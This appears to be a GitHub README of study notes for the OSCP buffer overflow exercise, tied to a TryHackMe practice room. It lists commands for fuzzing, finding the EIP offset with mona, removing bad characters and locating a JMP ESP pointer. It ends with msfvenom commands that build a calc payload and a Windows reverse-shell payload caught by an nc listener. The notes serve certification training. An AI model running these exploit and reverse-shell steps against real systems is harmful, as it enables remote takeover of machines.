 # OSCP_Prep: Buffer Overflow

For OSCP Buffer Overflow preparation, you don't need complicated codes and/or advanced python skills. You just need a simple python code and work your way up. The following steps are to help you in each of the step that you take. These 6 simple steps are just what you need for OCSP Buffer Overflow preparation.

Free TryHackMe Room: https://tryhackme.com/room/bufferoverflowprep

```c++
> xfreerdp /u:admin /p:password /cert:ignore /v:192.168.10.10
```

### 01 Fuzzing

```c++
> ./01-fuzz.py
```

Press `Ctrl + C` after the application crushed. Note down the byte number. (Example: Crushed at 2000)

### 02 Finding Offset

```c++
> msf-pattern_create -l 2000

> ./02-offset.py
```

At this point, I'm assuming you have Mona setup. 

```c++
> !mona findmsp -distance 2000
```

Find EIP normal pattern. (Example: EIP contains normal pattern : 0x42987857 (offset 1876))

### 03 Controlling EIP

```c++
> ./03-eip.py
```

You should see `424242` for EIP.

### 04 Finding Bad Characters

Setting up mona working directory:

```c++
> !mona config -set workingfolder c:\mona\%p
```

Generating byte array:

```c++
> !mona bytearray -b "\x00"
```

Running the script:

```c++
> ./04-badchar.py

> !mona compare -f C:\mona\oscp\bytearray.bin -a 0321FF88
```

Generating byte array with bad characters removed. Update the script and run again util you see 'Unmodified' status in mona memory comparison result.

```c++
> !mona bytearray -b "\x00\x0d"

> ./04-badchar.py

> !mona compare -f C:\mona\oscp\bytearray.bin -a 03B2FF88
```

### 05 Finding a Jump Point

```c++
> !mona jmp -r esp -cpb "\x00\x0d"
```

Set the break point by entering the pointer address and pressing `F2`.

```c++
> ./05-pointer.py
```

If the pointer address stop at EIP. You are good to go.

### 06 Popping Calculator

*Make sure to edit bad character

```c++
> msfvenom -p windows/exec CMD="C:\windows\system32\calc.exe" -b '\x00\x0d' -f c

> ./06-calc.py
```

After successfully popping the calculator app, next step is to get a shell.

*Again, make sure the get the bad character right. 

```c++
> msfvenom -p windows/shell_reverse_tcp LHOST=192.168.10.11 LPORT=443 EXITFUNC=thread -f c -a x86 -b "\x00\x0d"

> nc -lvnp 443

> ./07-exploit.py
```



